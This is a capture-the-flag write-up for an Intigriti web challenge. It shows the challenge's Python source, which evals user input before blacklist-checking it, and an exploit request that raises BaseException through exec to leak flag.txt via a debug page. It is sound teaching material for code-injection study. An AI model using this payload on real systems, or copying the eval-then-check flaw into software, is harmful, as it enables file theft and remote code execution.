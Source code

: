 # New is old again

```
score: 327
solved: 66/66 (solved in last 5 minutes)
difficulty: NA
tags: web, python, eval, OOP, exception hierarchy, inheritance
```

## Problem

```
Is this old vulnerability new now?

https://newisoldagain.ctf.intigriti.io/
Flag format: flag{}
Created by PinkDraconian
```

## Got the flag
The page shows its source code

```py
import web
import sys
from io import StringIO
import string

urls = (
  '/', 'index',
  '/old', 'old',
)
render = web.template.render('templates/')
app = web.application(urls, globals())

class index:
    def GET(self):
        source = f'\x3cpre\x3e\x3ccode\x3e{open(__file__).read()}\x3c/code\x3e\x3c/pre\x3e'
        return render.index(source, '')

class old:
    def GET(self):
        eval_output = ''
        stdout = sys.stdout
        sys.stdout = reportSIO = StringIO()
        blacklist = string.printable
        try:
            get_input = web.input()
            inject = get_input['inject'] if 'inject' in get_input else None
            if (inject):
                try:
                    x = eval(inject)
                    if (x):
                        eval_output = str(eval_output) + x
                except Exception as error:
                    print(error)
            for x in inject:
                if any(x in inject for x in blacklist):
                    return "caught you again 1337"
            reportStr = reportSIO.getvalue()
            sys.stdout = stdout
            output = str(reportStr) + str(eval_output)
            return render.index(f'\x3cpre\x3e\x3ccode\x3e{open(__file__).read()}\x3c/code\x3e\x3c/pre\x3e', output)
        except Exception as error:
            print(error)
            return error


if __name__ == "__main__":
    app.run()
```

The **ONLY** different here is the blacklist, instead of 3 strings in [OldIsNewAgain](./OldIsNewAgain.md),
is now uses `string.printable` - which is all printable characters. How could you write code without using
ASCII-printable characters? that is the trick to misleading players here.

Till the very last 5 minutes, after discussions we recognised the code still `eval` **THEN** check, so
if somehow we can put the flag somewhere after eval, we can got this.

The obvious way is do an exception, but the code already

```py
try:
    eval()
except Exception as error:
    print(error)
```

The [Python exception hierarchy](https://docs.python.org/3/library/exceptions.html#exception-hierarchy)
shows that Exception is child of class BaseException, and sibling with:

- SystemExit
- KeyboardInterrupt
- GeneratorExit

so if we raise BaseException with content set to the flag, it could get out of try/except Exception.
`eval` accepts only expression, `raise` is a statement, thus have to wrap in `exec`

```py
r = requests.get('https://newisoldagain.ctf.intigriti.io/old',

                 params={'inject': 'exec("""raise BaseException(str([i for i in open("flag.txt")]))""")'})
print(r.text)
```
It outputs a verbose debug webpage, search for `BaseException`, see

```html
  <h1>&lt;class &#39;BaseException&#39;&gt; at /old</h1>
  <h2>[&#39;flag{we_r3_reaaaaaaaaaaaaallly_leveling_up_here_oob_and_stuff}\n&#39;]</h2>
```

## Conclusion
The author was successfully tricked us to not do this sooner, it's out of time,
we could have took the last challenge, which is the same code, just eval with globals=None.
